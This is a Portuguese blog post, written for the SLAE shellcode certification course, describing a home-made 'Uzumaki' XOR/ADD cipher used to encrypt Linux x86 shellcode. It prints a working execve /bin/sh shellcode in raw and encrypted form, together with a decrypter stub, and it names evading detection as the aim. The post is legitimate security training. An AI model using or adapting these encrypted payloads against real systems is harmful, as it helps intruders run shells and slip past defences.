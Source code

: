 ```yaml
---
layout: post
title: SLAE - 7th Assignment - Crypted Shellcodes
date: '2013-04-29T12:03:00.000-03:00'
author: geyslan
categories: blog
excerpt: ""
tags: [slae, shellcode, linux, code, assembly, python, cryptography, hacking, portuguese]
share: true
modified: '2013-08-22T13:17:25.039-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-2083288330686489851
blogger_orig_url: http://www.hackingbits.com/2013/04/slae-7th-assignment-crypted-shellcodes.html
---
```


*/\*<br>
Este post é uma sequência. Para melhor entendimento, vejam:<br>
[SLAE - 1st Assignment - Shell Bind TCP](/blog/slae-1st-assignment-shell-bind-tcp)<br>
[Hacking do Dia - Shell Bind TCP Random Port](/blog/hacking-do-dia-shell-bind-tcp-random)<br>
[SLAE - 2nd Assignment - Shell Reverse TCP](/blog/slae-2nd-assignment-shell-reverse-tcp)<br>
[O menor do mundo? Yeah? So Beat the Bits!](/blog/o-menor-do-mundo-yeah-so-beat-bits)<br>
[SLAE - 3rd Assignment - Caçando Ovos?](/blog/slae-3rd-assignment-cacando-ovos)<br>
[SLAE - 4th Assignment - Encoding and Decoding Gollums](/blog/slae-4th-assignment-encoding-and)<br>
[SLAE - 5th Assignment - Metasploit Shellcodes Analysis](/blog/slae-5th-assignment-metasploit)<br>
[SLAE - 6th Assignment - Polymorphic Shellcodes](/blog/slae-6th-assignment-polymorphic)<br>
\*/*

<!--more-->

*This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:*

*[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)*

*Student ID: SLAE-237*

*Códigos deste post estão no [GitHub](https://github.com/geyslan/SLAE/tree/master/7th.assignment)*.

*Shell-Storm:<br>
[Tiny Execve Sh](http://shell-storm.org/shellcode/files/shellcode-841.php)<br>
[Insertion Decoder Shellcode](http://shell-storm.org/shellcode/files/shellcode-840.php)*

##The Last Mission

Finalmente, o último assignment.

###7th assignment

- Criar um crypter customizado.
- Utilizar qualquer esquema de criptografia existente.
- Usar qualquer linguagem de programação.

##Criptografia!

O vídeo sobre o assunto demonstra um encrypter e um decrypter, construídos em C,
que usam o algoritmo de fluxo [RC4](http://en.wikipedia.org/wiki/RC4) para
processar o shellcode. De início eu não contemplei a que fim serviria um
shellcode critptografado que não conteria seu decrypter embutido, portanto,
agradeço ao Pedro Fausto pela objetiva explanação que me deixou inteirado das
possíveis finalidades: uso na comunicação entre dois pontos já comprometidos;
uso entre um bastião e seus zumbis... Em suma, para qualquer uso evasivo entre
pontos!

Encontrei um algoritmo candidato para a implementação do crypter: [TEA - Tiny
Encryption Algorithm](http://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm).
Entretanto, vi que ele não seria viável por conta do tamanho que ele teria em
[assembly](http://nayuki.eigenstate.org/page/tiny-encryption-algorithm-in-x86-assembly);
haja vista não ter aberto mão de criar o built-in decrypter.

Só tinha uma maneira, criar meu próprio tiny
[cipher](http://en.wikipedia.org/wiki/Cipher).

##Uzumaki Cipher (Swirling Everything)

Usei os moldes da [Stream Cipher](http://en.wikipedia.org/wiki/Stream_cipher)
para criar o Uzumaki (うずまき) Cipher; a cifra consiste no processo de um XOR com
um valor estático, seguido de mais um XOR com um valor pseudorandom (keystream),
terminando com o ADD de um valor estático.

###Crypter

**shellcode[x-1] ^ (shellcode[x] ^ xorByte)) + addByte**

###Built-in Decrypter

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/7th.assignment/uzumaki_decrypter.png" caption="Fluxograma do Uzumaki Cipher" %}

O uzumaki cipher é um algoritmo simples que pode ser utilizado com sucesso em
shellcodes quando o assunto é evasão. Devo ressaltar que um dado criptografado,
para sua própria segurança, não deve conter informações que possam levar à
desencriptação; assim, o built-in decrypter do fluxograma acima (no git com
código comentado) foi criado apenas como uma
[PoC](http://en.wikipedia.org/wiki/Proof_of_Concept). Contudo, nada obsta seu
uso.

##Uso

{% highlight console %}
$ ./uzumaki_crypter.py -a 01 -x 5d -s $'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'
...
Crypted shellcode:

"\x31\xa6\x64\x4c\x0d\xe7\x08\x65\x1b\x5e\x02\x47\x5e\x1b\x11\x57\x5b\xbb\x38\x74\x11";

0x31,0xa6,0x64,0x4c,0x0d,0xe7,0x08,0x65,0x1b,0x5e,0x02,0x47,0x5e,0x1b,0x11,0x57,0x5b,0xbb,0x38,0x74,0x11

Crypted shellcode with decrypter built-in:

"\x29\xc9\x74\x14\x5e\xb1\x14\x46\x8b\x06\x83\xe8\x01\x34\x5d\x32\x46\xff\x88\x06\xe2\xf1\xeb\x05\xe8\xe7\xff\xff\xff\x31\xa6\x64\x4c\x0d\xe7\x08\x65\x1b\x5e\x02\x47\x5e\x1b\x11\x57\x5b\xbb\x38\x74\x11";

0x29,0xc9,0x74,0x14,0x5e,0xb1,0x14,0x46,0x8b,0x06,0x83,0xe8,0x01,0x34,0x5d,0x32,0x46,0xff,0x88,0x06,0xe2,0xf1,0xeb,0x05,0xe8,0xe7,0xff,0xff,0xff,0x31,0xa6,0x64,0x4c,0x0d,0xe7,0x08,0x65,0x1b,0x5e,0x02,0x47,0x5e,0x1b,0x11,0x57,0x5b,0xbb,0x38,0x74,0x11
{% endhighlight %}

##Fim!?

É isso aí pessoal! Essa foi a última missão do curso SLAE! E até que foi
simples, porque no decorrer dos posts, aprendemos muitas formas de utilizar a
linguagem assembly para a criação de vários tipos de shellcodes.

Espero que tenham gostado!

[]

##Mais Informações

[SLAE - SecurityTube Linux Assembly Expert](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br>
[Get shellcode of the binary using objdump - Andrey Arapov](http://www.commandlinefu.com/commands/view/12151/get-shellcode-of-the-binary-using-objdump#comment)<br>
[RC4](http://en.wikipedia.org/wiki/RC4)<br>
[Tiny Encryption Algorithm](http://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm)<br>
[Cipher](http://en.wikipedia.org/wiki/Cipher)<br>
[Stream Cipher](http://en.wikipedia.org/wiki/Stream_cipher)<br>
[Uzumaki - Denshi Jisho](http://jisho.org/words?jap=uzumaki&eng=&dict=edict)<br>
